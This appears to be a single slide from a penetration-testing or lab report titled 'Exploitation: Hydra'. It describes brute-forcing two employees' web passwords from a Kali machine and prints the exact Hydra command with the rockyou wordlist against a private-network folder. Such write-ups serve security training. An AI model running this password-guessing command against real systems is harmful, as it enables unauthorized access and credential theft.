

# Exploitation: Hydra
01

02

03

Tools & Processes

Used Hydra in the Kali Linux machine to steal passwords.
Achievements

The exploit allowed Kali machine to steal the employees’ passwords. Gained Ashton’s and Ryan’s Passwords.

Code Used to Exploit

hydra -l ashton -P /usr/share/wordlists/rockyou/txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder